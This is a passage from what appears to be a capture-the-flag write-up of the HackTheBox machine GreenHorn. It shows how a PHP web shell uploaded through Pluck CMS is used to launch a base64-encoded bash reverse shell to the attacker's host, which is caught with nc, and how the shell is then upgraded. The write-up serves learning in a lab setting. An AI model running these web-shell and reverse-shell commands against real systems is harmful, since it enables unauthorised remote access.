 Pluck takes that Zip archive and unpacks it into `/data/modules/[archive name without extension]/`. So I can find it at `/data/modules/notevil/0xdf.php`. I’ll add `?cmd=id` to the end of the URL to give it a command to run, and it works:

![image-20240722185025139](https://0xdf.gitlab.io/img/image-20240722185025139.png)

It’s worth noting these file are cleaned up relatively frequently, so if the file isn’t there, I’ll have to re-upload.

#### Shell

I’ll base64 encode a [bash reverse shell](https://www.youtube.com/watch?v=OjkVep2EIlw):

```
oxdf@hacky$ echo 'bash -c "bash  -i >& /dev/tcp/10.10.14.6/443 0>&1"' | base64
YmFzaCAtYyAiYmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMSIK
```

Now I’ll visit:

```
http://greenhorn.htb/data/modules/notevil/0xdf.php?cmd=echo%20%22YmFzaCAtYyAiYmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMSIK%22%20|%20base64%20-d%20|%20bash
```

This is passing the command to echo that string to `base64 -d` and the result into `bash`. On running it, I’ll get a shell at `nc`:

```
oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.25 45320
bash: cannot set terminal process group (1039): Inappropriate ioctl for device
bash: no job control in this shell
www-data@greenhorn:~/html/pluck/data/modules/notevil$
```

I’ll upgrade my shell with [the standard trick](https://www.youtube.com/watch?v=DqE6DxqJg8Q):

```
www-data@greenhorn:~/html/pluck/data/modules/notevil$ script /dev/null -c bash
<luck/data/modules/notevil$ script /dev/null -c bash   
Script started, output log file is '/dev/null'.
www-data@greenhorn:~/html/pluck/data/modules/notevil$ ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@hacky$ stty raw -echo; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
www-data@greenhorn:~/html/pluck/data/modules/notevil$
```

## Shell as junior

### Enumeration
